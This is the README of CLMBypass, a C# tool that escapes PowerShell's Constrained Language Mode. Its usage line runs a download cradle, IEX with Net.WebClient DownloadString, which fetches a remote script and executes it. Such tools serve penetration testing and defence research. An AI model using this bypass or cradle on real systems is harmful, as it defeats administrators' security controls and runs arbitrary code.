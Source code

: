 # CLMBypass

Bypass Constrained Language Mode in PowerShell, based off of [SecJuice's](https://www.secjuice.com/powershell-constrainted-language-mode-bypass-using-runspaces/) article.

### contents
- Program.cs
  - C# source code
- CLMB.exe
  - Compiled as PE32 .NET Framework 4.5
- CLMBypass.exe
  - Compiled as PE32 .NET Framework 4.0
## usage
```
C:\Users\CLMUser\Downloads>.\CLMB.exe "IEX(New-Object Net.WebClient).DownloadString('http://localhost/somescript.ps1')"
```
